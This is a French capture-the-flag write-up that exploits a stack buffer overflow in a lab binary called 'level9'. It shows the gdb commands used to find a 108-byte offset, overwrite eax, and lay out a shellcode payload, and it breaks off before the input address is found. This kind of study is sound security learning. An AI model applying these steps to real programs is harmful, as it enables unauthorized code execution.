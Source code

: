 ## Exploit

Comme on l'a vu dans l'analyse, notre programme SegFault avec un argument trop long, trouvons son [offset](https://wiremask.eu/tools/buffer-overflow-pattern-generator/):

- `gdb level9`
  - `set disassembly-flavor intel`
  - `r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`
    ```
    [...]
      Program received signal SIGSEGV, Segmentation fault.
        0x08048682 in main ()
    [...]
    ```
    - Le main SegFault à l'instruction <main +142>, où on essaie de déréférencer eax pour y mettre le contenu à l'adresse qu'il contient dans edx, juste avant de le call à <main +159>
  - `info registers`
    ```asm
    [...]
      eax            0x41366441	1094083649
    [...]
    ```
    - eax a été réécrit par notre payload, le générateur de pattern nous indique un offset de 108 pour 0x41366441 

Étant donné qu'il n'y a pas de call a "/bin/sh" dans le programme, on va devoir utiliser un shellcode. L'objectif ici va être d'insérer un pointeur sur son adresse dans eax, afin qu'elle soit déréférencée puis stockée dans edx avant d'être call.

Pour cela, on va poser un breakpoint à l'instruction qui SegFault: 0x08048682 et observer l'évolution de $eax avec un pattern adapté a notre buffer:
  - `b * 0x08048682`
  - `r $(python -c 'print "A" * 108 + "BBBB"')`
  - `x $eax`
    ```
    0x42424242:	Cannot access memory at address 0x42424242
    ```
    - Nos 4 B ont bien réécrit l'adresse dans eax, mais la suite va SegFault car 0x42424242 n'est pas une adresse valide.

L'idée ici sera de mettre l'adresse de notre input dans eax, notre input sera alors construit comme suit:
- L'adresse de notre shellcode (4 octets) => adresse de notre input + 4
- [Notre shellCode](https://www.exploit-db.com/exploits/42428) (24 octets)
- Padding de (108 - 4 - 24 = 80 octets)
- L'adresse de notre input
Ainsi, eax va porter l'adresse de notre input. Lors du déréférencement, le programme va y lire les 4 premiers octets (l'adresse de notre shellcode un plus loin dans l'input) et les stocker en tant qu'adresse dans edx, pour enfin être call à <main +159>. C'est cool, mais pour cela il nous faut l'adresse de notre input ! <br/>
